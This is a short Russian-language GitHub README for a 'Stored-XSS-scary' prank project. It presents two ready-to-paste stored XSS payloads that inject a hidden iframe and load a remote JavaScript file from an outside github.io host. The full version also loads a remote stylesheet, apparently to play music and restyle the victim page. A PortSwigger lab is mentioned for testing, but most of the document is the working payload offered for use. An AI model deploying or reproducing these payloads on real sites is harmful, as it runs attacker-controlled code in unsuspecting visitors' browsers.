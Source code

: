 # Stored-XSS-scary

Код сработает только при наличии уязвимости хранимый XSS + если сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

https://github.com/0-DAyFF13R/Stored-XSS-scary/assets/63510648/918e3044-14b0-45c1-aa3c-c795c30caf6f

------------------------------------------

Полная версия (музыка + CSS) [445 символов]:
> <script>var f=document.createElement("iframe");f.src="/css/bootstrap.min.css";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s);var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c)};f.style.display="none"</script>

<br> Сокращенная версия (только музыка) [300 символов]:
> <script>var f=document.createElement("iframe");f.src="/css/bootstrap.min.css";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s)};f.style.display="none"</script>
